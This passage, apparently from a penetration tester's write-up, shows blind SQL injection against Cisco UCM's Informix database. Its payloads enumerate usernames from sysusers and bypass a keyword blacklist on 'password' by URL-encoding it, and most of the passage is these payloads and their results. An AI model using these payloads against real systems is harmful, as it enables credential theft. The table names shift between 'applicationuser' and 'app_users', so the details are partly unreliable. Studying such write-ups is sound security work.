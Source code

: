 ```
1=1 AND (SELECT nrows FROM systables WHERE tabname = 'sysusers') = 1000
#returned data
```

With this in mind, we can start using `rowid` and `ncols` to enumerate all the usernames within the `sysusers` table. By incrementing the `rowid`, we can cycle through queries and every time a query returns data, we reduce the `ncols` value by 1:

```
1=1 AND (SELECT ascii(substring(username from 1 for 1)) FROM sysusers WHERE rowid = 5000) > 1
#returned no data, ncols value is at 444
1=1 AND (SELECT ascii(substring(username from 1 for 1)) FROM sysusers WHERE rowid = 5001) > 1
#returned no data, ncols value is at 444
1=1 AND (SELECT ascii(substring(username from 1 for 1)) FROM sysusers WHERE rowid = 5002) > 1
#returned data, ncols value is at 443
...
1=1 AND (SELECT ascii(substring(username from 1 for 1)) FROM sysusers WHERE rowid = 7850) > 1
#returned data, ncols value is at 2
1=1 AND (SELECT ascii(substring(username from 1 for 1)) FROM sysusers WHERE rowid = 7851) > 1
#returned data, ncols value is at 1
```

With a set of known rowids with non-empty rows, we can now start to enumerate usernames without having to run any custom scripts indefinitely:

```
1=1 AND (SELECT ascii(substring(username from 1 for 1)) FROM sysusers WHERE rowid = 7851) > 1
#returned data
```

## Enumerating User Passwords

As previously stated, the `sysusers` table contained a row called `password`. It was also found that the Cisco UCM software utilized the table `applicationuser` to store users related to the Cisco UCM software, which also contained a "password row".

Using the previously discussed techniques, it should have been possible to enumerate the entire `app_users` table…that is, until the following query:

```
1=1 AND (SELECT ascii(substring(password from 1 for 1)) FROM applicationuser WHERE rowid = 500) > 1
#returned error "Security Exception"
```

That is a weird error message, and not very Googleable. After some testing, it was determined that the server would only respond with that error when trying to enumerate the `password` column in any table. Based on this behavior, we had assumed that it was a blacklist keyword situation at the application level.

And we were right! All I had to do was URL encode `password` to get past this issue:

```
1=1 AND (SELECT ascii(substring(%70%61%73%73%77%6f%72%64 from 1 for 1)) FROM app_users WHERE rowid = 500) > 1
#returned data
```
